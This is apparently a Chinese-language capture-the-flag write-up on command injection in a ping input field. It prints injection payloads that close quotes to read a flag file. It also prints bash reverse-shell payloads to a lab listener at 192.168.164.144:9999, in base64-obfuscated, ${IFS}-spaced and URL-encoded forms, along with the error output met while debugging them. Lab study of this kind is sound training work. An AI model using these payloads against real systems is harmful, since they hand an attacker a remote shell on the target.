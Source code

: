 ## 反弹shell
用`${IFS}`替代空格即可
```
baidu.com;bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4xNDQvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}'
```

# 第3关
双引号包裹了输入,可以将双引号闭合
## 简单注入
```shell
";cat flag;#
";cat flag;"
```
最后加一个#号，将后面的双引号注释掉。也可以接一个双引号将后面的双引号闭合掉


## 反弹shell
试试直接发反弹shell，payload如下：
```shell
";bash -i >& /dev/tcp/192.168.164.144/9999 0>&1;"
```
显示`/bin/sh: 1: Syntax error: Unterminated quoted string`
ctrl+shift+i 打卡浏览器控制台，点击网络，查看/third的包，发现负载如下：
```
inputip: ";bash -i >
```
由于&的缘故，输入没有完全发出，将上面的payload进行url编码
```
%22%3Bbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.164.144%2F9999%200%3E%261%3B%22
```
payload被正常发出，但还是报错
```
ping: : Name or service not known
/bin/sh: 1: Syntax error: Bad fd number
```
注意到
```
bash -i >& /dev/tcp/192.168.164.144/9999 0>&1
```
注意，在有引号和没有引号的执行结果是不一样的————
```shell
$ "bash -i >& /dev/tcp/192.168.164.144/9999 0>&1"
-bash: bash -i >& /dev/tcp/192.168.164.144/9999 0>&1: No such file or directory
$ bash -i >& /dev/tcp/192.168.164.144/9999 0>&1
-bash: connect: Connection refused
-bash: /dev/tcp/192.168.164.144/9999: Connection refused
#监听端并未开启监听，但从回显来看，该命令是执行成功了
```

试试以下payload
```shell
";bash -c 'bash -i >& /dev/tcp/192.168.164.144/9999 0>&1';#
";bash -c 'bash -i >& /dev/tcp/192.168.164.144/9999 0>&1';"
```
